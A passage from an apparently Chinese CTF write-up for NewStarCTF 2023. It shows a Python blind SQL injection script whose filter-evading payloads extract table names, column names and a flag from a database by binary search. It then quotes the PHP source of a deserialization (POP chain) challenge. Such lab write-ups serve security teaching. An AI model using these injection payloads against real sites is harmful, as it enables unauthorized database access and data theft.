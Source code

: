 ```
        else:
            # 获取当前库表名
            # url = f"{_url}?id=TMP0919' And if((((Ord(sUbstr((Select(grouP_cOncat(table_name))fRom(infOrmation_schema.tables)whEre((tAble_schema) In (dAtabase()))) fRom {_time} FOr 1))))&gt;({mid})),1,0)%23"
            # 获取字段名
            # url = f"{_url}?id=TMP0919' And if((((Ord(sUbstr((Select(grouP_cOncat(column_name))fRom(infOrmation_schema.columns)whEre((tAble_name) In ('here_is_flag'))) fRom {_time} FOr 1))))&gt;({mid})),1,0)%23"
            # 获取字段值
            url = f"{_url}?id=TMP0919' And if((((Ord(sUbstr((Select(flag)fRom(here_is_flag)) fRom {_time} FOr 1))))&gt;({mid})),1,0)%23"
            res = requests.get(url=url)
            if (condition(res)):
                left = mid
            else:
                right = mid

```

### 八、POP Gadget

1.源代码如下。

```
&lt;?php
highlight_file(__FILE__);

class Begin{
    public $name;

    public function __destruct()
    {
        if(preg_match("/[a-zA-Z0-9]/",$this-&gt;name)){
            echo "Hello";
        }else{
            echo "Welcome to NewStarCTF 2023!";
        }
    }
}
class Then{
    private $func;

    public function __toString()
    {
        ($this-&gt;func)();
        return "Good Job!";
    }
}
class Handle{
    protected $obj;

    public function __call($func, $vars)
    {
        $this-&gt;obj-&gt;end();
    }
}
class Super{
    protected $obj;
    public function __invoke()
    {
        $this-&gt;obj-&gt;getStr();
    }
    public function end()
```